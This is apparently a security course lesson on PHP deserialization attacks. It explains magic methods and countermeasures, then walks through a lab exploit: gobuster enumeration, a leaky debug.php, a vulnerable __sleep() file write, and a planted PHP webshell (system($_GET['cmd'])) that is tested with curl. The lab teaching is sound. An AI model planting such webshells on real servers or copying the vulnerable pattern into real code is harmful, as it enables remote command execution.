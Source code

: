 ```yaml
---
title: "Deserialization/Serialization Attack"
teaching: 3
exercises: 30
questions:
- "What is deserialization/serialization?"
- "What are the php magic methods?"
- "What are the countermeasures?"
objectives:
- "Describe deserialization attacks."
- "Understand simple exploit."
- "Write code that avoid deserialization attacks."
---
```



## What is deserialization/serialization?

Serialization is the process of turning some object into a data format that can be restored later.
People often serialize objects in order to save them to storage, or to send as part of
communications. In php, the code looks like this: serialize(mixed $value): string

Deserialization is the reverse of that process, taking data structured from some format, and
rebuilding it into an object. Today, the most popular data format for serializing data is JSON.
Before that, it was XML. In php, the code looks like this:
unserialize(string $data, array $options = []): mixed

![demodiagram](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/e9ac88ff-50bb-4e5e-802b-989fb8f7e830)

## What are the php magic methods?

In PHP, magic methods are special methods that allow you to define custom behavior for certain
actions or events that occur on an object. These methods are automatically called by PHP based
on specific naming conventions, and they override the default behavior of PHP for those actions.

For example, __sleep() is a magic method in PHP that is called automatically when the
serialize() function is called on an object. PHP checks if the class of the object being serialized
has a method named __sleep(). If such a method exists, it is executed before the serialization
process starts. This allows you to define custom logic to prepare the object for serialization, such
as cleaning up sensitive data or performing additional data manipulation.

![deserphp](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/3e84e433-2db1-477f-8e19-357c0508fa42)

The code defines a PHP class called "test" using the "class" keyword. The class has a single
method called "__sleep()". The "__sleep()" method is a magic method in PHP that is
automatically called when you try to serialize an object of this class using the "serialize()"
function.

![desersleep](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/bea89035-748a-4d46-ae38-448ebcfdb8ac)

Within the "__sleep()" method, the code echoes the string "__sleep method called" using the
"echo" statement. This string will be printed when the "__sleep()" method is executed during
serialization.

The "__sleep()" method also returns an empty array using "return array();". In PHP, the purpose
of the "__sleep()" method is to allow you to specify which properties of an object should be
serialized. By returning an array of property names from "__sleep()", you can selectively choose
which properties should be included in the serialized representation of the object. In this case, an
empty array is returned, which means no properties will be serialized. You don’t need to pay
much attention to this property as it does not relate to the attack explained today
"serialize($new_test);"

The "serialize()" function is called with "$new_test" as an argument, which serializes the object
into a string representation. During serialization, PHP automatically calls the "__sleep()" method
of the "test" class, which echoes the string "__sleep method called" and returns an empty array.

## What are the countermeasures?

1. Input Validation: Validate and sanitize all input data, especially data that is being
deserialized. Implement strict input validation to ensure that only expected data types and
formats are accepted. Discard or reject any unexpected or malicious data during
deserialization.

2. Implement Access Controls: Implement access controls and permissions to restrict the
deserialization process to authorized users or systems. Limit the privileges of the
deserialized objects to the minimum necessary for their intended use.

3. Use Secure Serialization Methods: Use secure serialization methods, such as PHP's
"json_encode()" and "json_decode()" functions, which are less prone to deserialization
vulnerabilities compared to other serialization methods like "serialize()" and
"unserialize()".

### Demonstration
1. We will start by first adding the Deserialization Attack application:

![add_app](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/16e609c9-5446-4c6c-b70a-c7885dff74d9)

2. Next, click the View link to go to the application-specific page and start the application containers:

![start](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/5d192067-3366-4c4e-ae9e-106f158a6288)

3. Open the victim terminal and type 'ifconfig' to check the IP address for victim server  

![victim terminal](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/33064a4c-5a86-4e51-bb3c-44a057f0f4e9)



4. launch the hacker’s web interfaces in separate browser tabs by clicking the icon next to the deserialization:

![attacker-link](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f39fc9c6-f46f-4476-84e2-03a2ec342e02)

5. On the deserialization(hacker) vm, open firefox browser, or install any browser you like. Enter http://victim_ip to the URL bar to access the VNC session

![attacker-victim-vnc](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f2223721-b7fd-4914-abb3-825c9de2ec30)

6. Try going through the website like a normal user, is there anywhere you can exploit, anything you can enter?

Then, on the deserialization(hacker) vm. use the command gobuster dir -w /wordlist/wordlist_php -u http://victim_ip:8080 to list the directory and hidden file on the webserver. Feel free to try other web enumeration tools, and use different wordlist as well.

![hacker gobuster](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/hacker%20gobuster.png?raw=true)



7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a new file called debug.php running on the website. To open debug.php, use the command http://victim_ip/debug.php

![webpage-debug](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/1bb997d9-f217-47a0-84de-007e821cc54e)

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
source code of debug.php, you can enter the URL: http://<victim's IP address>:8080/debug.php?read=debug.php to view the source code of the
debug.php.

![debug php sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20php%20sourcecode.png?raw=true)



9. In the source code of debug.php, there are two Get parameters you can manipulate. One is called read and the other is execute. read can let you check the source code of the websites and execute will allow you to execute file contain PHP source code

![gobuster-command-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/45b13c9f-7732-4ad2-b2e0-ae1cebaef628)

10. When you run the gobuster tool, I am sure you have also found another php file called contact.php. contact.php is the file where the website will process the contact information entered by user, we can see the source code of this file by entering the URL: http://<victim's IP address>/debug.php?read=contact.php

![debug sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20sourcecode.png?raw=true)


11. Upon reviewing the source code of contact.php file, what have you found? There is a critical vulnerability in the file, a deserialization vulnerability.

```
<?php
# Omitted some code

$new_customer = new customer;
$new_customer->name = $name;
$new_customer->email = $email;
$new_customer->comment = $comment;
$temp = serialize($new_customer);

# Omitted some code

class customer
{
   public $name;
   public $email;
   public $comment;
   public function __sleep()
   {
      // Write the content to file once the object is serialized
      $filename = $this->name . '_' . $this->email;
      file_put_contents("./user_info/$filename", $this-
>comment, FILE_USE_INCLUDE_PATH);
   }
}
?>
```

12. A closer look at the preceding code reveals that the vulnerability exists in the magic function __sleep() defined in the class customer. The logic in the function __sleep() shows that once an instance of class customer is serialized, it will write a file to a directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
Recall earlier I asked you to find the parameter you can interact with on the website,
there is a webpage where you can enter user defined text. To navigate to this page, enter
the URL http://victim_ip/contact.html to access the page.

![attacker-victim-vnc2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/d97ddab3-76ae-43a0-853a-9f3a63b07f6b)

14. On this page, there are three parameters you can define: name, email, and comment. If you still remember the source code of the contact.php file, you can make an educated guess that the contact.php will handle the post request sent by contact.html form. If you want to verify that, you can also download burpsuites and verify. Or you can also examine the source code of the contact.html page to see where the POST request is sent to.

![demodiagram2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/08579174-32fa-4df9-bcfd-96bb608d5d2b)

15. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
entering all the text, click submit to plant the webshell ''<?php $exec = system($_GET['cmd'] ) ?> ''

![demodiagram3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/47192691-5a79-4f79-88e7-0f2e0384e999)

16. On the attacker VM, use the command curl
http://victim_ip/user_info/test_user.php?cmd=whoami to test whether the planted
webshell is working or not.
You can also try http://victim_ip/user_info/test_user.php?cmd=ifconfig

![result](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/result%20.png?raw=true)


17. A secure server is running on the Secure server's IP address, you are welcome to try attacking
it, but it does not have the deserialization vulnerability and misconfiguration present on
the victim VM.




